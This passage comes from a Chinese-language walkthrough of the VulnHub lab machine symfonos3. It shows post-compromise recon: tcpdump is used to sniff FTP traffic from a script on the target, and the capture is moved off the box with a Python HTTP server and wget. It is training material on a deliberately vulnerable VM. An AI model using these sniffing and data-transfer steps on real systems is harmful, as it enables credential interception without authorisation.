 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/24.png)

其他进程没有什么异常的点,但是发现有个 ftp 客户端 python 脚本,不过没有权限查看脚本
```bash
cd /opt/
ls -l
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/25.png)

这个脚本一直在向 ftp 发送数据,我们可以抓包分析下
```bash
cd /tmp
tcpdump -D
tcpdump -w ftp.pcap -i ens33
```

运行命令后静静等待一段时间。

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/26.png)

将抓好的包传给分析数据的机器,我这里用 windows 端的 wireshark 分析,先传给 kali 在传给 windows
```bash
python -m SimpleHTTPServer
```
```bash
wget 192.168.141.150:8000/ftp.pcap
```

关于 wireshark 的简单用法见 [wireshark 笔记](../../../工具/Wireshark.md)

分析了半天,啥都没有,突然想起来 127.0.0.1 应该是走环回口,妈的,还得再抓包
